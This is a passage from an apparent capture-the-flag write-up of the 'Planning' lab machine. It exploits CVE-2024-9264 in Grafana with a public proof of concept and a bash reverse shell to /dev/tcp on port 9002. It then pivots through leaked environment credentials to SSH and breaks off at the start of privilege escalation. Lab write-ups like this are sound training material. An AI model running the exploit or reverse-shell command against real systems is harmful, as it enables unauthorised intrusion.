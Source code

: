 and a working PoC at https://github.com/nollium/CVE-2024-9264, lets clone the repo and ran the exploit.
```bash
└─$ python3 CVE-2024-9264.py        
usage: CVE-2024-9264.py [-h] [-u USER] [-p PASSWORD] [-f FILE] [-q QUERY] [-c COMMAND] url
CVE-2024-9264.py: error: the following arguments are required: url

```

Using the provided credentials for the Machine `admin / 0D5oT70Fq13EvB5r`, I executed the script while listening on port 9002:
```bash
└─$ python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c 'bash -c "/bin/bash -i >& /dev/tcp/10.10.14.73/9002 0>&1"'  http://grafana.planning.htb 
[+] Logged in as admin:0D5oT70Fq13EvB5r                                                                                                
[+] Executing command: bash -c "/bin/bash -i >& /dev/tcp/10.10.14.73/9002 0>&1"       
```

Got a shell back. Shows as root, but it’s a Docker container.

```bash
└─$ nc -lvnp 9002                                                                                                                                        
listening on [any] 9002 ...
connect to [10.10.14.73] from (UNKNOWN) [10.129.237.241] 46612
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell           
root@7ce659d667d7:~# ls                    
```
While doing ыщьу basic enumeration stuff, i ran `env` to check environment variables  and found credentials:

<img width="1661" height="630" alt="2025-08-05 180639" src="https://github.com/user-attachments/assets/f565149e-dbdf-4919-93a4-02d58dbb4aca" />

Tried those creds with SSH on the main host - success. We’re enzo@planning. First flag done.
<img width="1730" height="1072" alt="2025-08-05 180929" src="https://github.com/user-attachments/assets/e784c69a-6633-4e36-9aa0-941de90f2b7a" />

# Privilege Escalation
Started with basics as always. Nothing in sudo -l, no processes are running.

```bash
enzo@planning:~$ ps auxww
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
enzo        3296  0.0  0.2   8668  5504 pts/0    Ss   16:08   0:00 -bash
enzo        3613  0.0  0.2  10884  4352 pts/0    R+   16:24   0:00 ps auxww

```
Found a /opt/crontabs/ directory with a crontab.db file insid

<img width="3798" height="117" alt="2025-08-05 182619" src="https://github.com/user-attachments/assets/be0aa2d1-bfc2-4c88-bb62-e390934612af" />

The script does:

